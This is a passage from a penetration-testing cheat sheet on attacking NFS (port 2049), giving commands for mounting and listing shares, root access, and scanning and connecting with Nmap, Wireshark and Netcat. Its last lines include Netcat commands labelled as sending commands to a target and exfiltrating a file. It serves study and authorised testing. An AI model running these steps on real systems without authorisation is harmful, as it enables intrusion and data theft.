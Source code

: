	```bash
	<target_ip>:/srv/nfs/share /mnt/share nfs defaults 0 0
	```
- **Mounting with Specific Options:** Mounts the NFS share with read/write access and synchronous writes.
	```bash
	mount -t nfs -o rw,sync <target_ip>:/srv/nfs/share /mnt/share
	```
- **Unmounting an NFS Share:** This command unmounts the NFS share from the local directory `/mnt`.
	```bash
	cd ..
	sudo umount ./target-NFS
	```
- **Show Available NFS Shares :** This command lists all the directories shared by the NFS server.
	```bash
	showmount -e <server_ip>
	```
- **List Contents with Usernames and Group Names:**
	```bash
	ls -l mnt/nfs/
	```
- **List Contents with UIDs and GUIDs:**
	```bash
	ls -n mnt/nfs/
	```
- **Root:** Some directories may have restricted permissions use root to attempt to bypass.
	```bash
	su root
	```

## Exploitation Tools

### [[Metasploit]]

### [[Wireshark]]
- **Wireshark Packet Capture:**
	```bash
	wireshark -i <interface> -f "tcp port 2049"
	```

### [[Nmap]]
- **Basic Nmap Scan:** Scan target on specified port to verify if service is on.
    ```bash
    nmap <target_ip> -p 2049
    ```

### [[NetCat]]
- **Netcat TCP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 2049
    ```
- **Netcat UDP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 2049 -u
    ```
- **Execute Commands:** Execute commands on target.
	```bash
	echo "<command>" | nc <target_ip> 2049
	```
- **Exfiltrate Data:** Exfiltrate data over specified port.
	```bash
	nc <target_ip> 2049 < secret_data.txt